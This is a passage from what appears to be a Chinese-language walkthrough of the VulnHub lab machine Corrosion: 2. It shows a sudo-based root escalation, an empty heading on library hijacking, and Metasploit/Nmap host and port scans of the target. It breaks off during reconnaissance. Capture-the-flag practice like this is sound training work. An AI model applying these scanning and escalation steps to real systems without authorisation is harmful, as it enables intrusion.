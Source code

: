 

sudo 执行脚本，获得 root 权限。

```
sudo /usr/bin/python3.8 /home/randy/randombase64.py 

[sudo] password for randy: 
root@corrosion:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```



### 动态链接库劫持





## vulnhub

### Corrosion: 2

Nmap 扫描 IP 地址。

```
msf6 > db_nmap -sP -PR -T 5 -n 10.10.10.0/24
[*] Nmap: Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 07:30 UTC
[*] Nmap: Nmap scan report for 10.10.10.1
[*] Nmap: Host is up (0.00047s latency).
[*] Nmap: MAC Address: 00:50:56:C0:00:0A (VMware)
[*] Nmap: Nmap scan report for 10.10.10.103
[*] Nmap: Host is up (0.00016s latency).
[*] Nmap: MAC Address: 00:0C:29:25:CD:30 (VMware)
[*] Nmap: Nmap scan report for 10.10.10.200
[*] Nmap: Host is up (0.000082s latency).
[*] Nmap: MAC Address: 00:50:56:FA:67:12 (VMware)
[*] Nmap: Nmap scan report for 10.10.10.10
[*] Nmap: Host is up.
[*] Nmap: Nmap done: 256 IP addresses (4 hosts up) scanned in 1.53 seconds
```

```
address       mac                name  os_name  os_flavor  os_sp  purpose  info  comments
-------       ---                ----  -------  ---------  -----  -------  ----  --------
10.10.10.1    00:50:56:C0:00:0A
10.10.10.10
10.10.10.103  00:0C:29:25:CD:30
10.10.10.200  00:50:56:FA:67:12
```

注：此处通过排除法确定 10.10.10.103 是靶机（因为其他机器全是我的）。



Nmap 扫描 IP 的 TCP 端口信息和操作系统信息。

```
msf6 > db_nmap -sS -sV -p- -r -n -T 5 -O 10.10.10.103
[*] Nmap: Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-02 07:35 UTC
[*] Nmap: Nmap scan report for 10.10.10.103
[*] Nmap: Host is up (0.00040s latency).
[*] Nmap: Not shown: 65532 closed tcp ports (reset)
[*] Nmap: PORT     STATE SERVICE VERSION
[*] Nmap: 22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
[*] Nmap: 80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
[*] Nmap: 8080/tcp open  http    Apache Tomcat 9.0.53
[*] Nmap: MAC Address: 00:0C:29:25:CD:30 (VMware)
[*] Nmap: Device type: general purpose|router
[*] Nmap: Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
```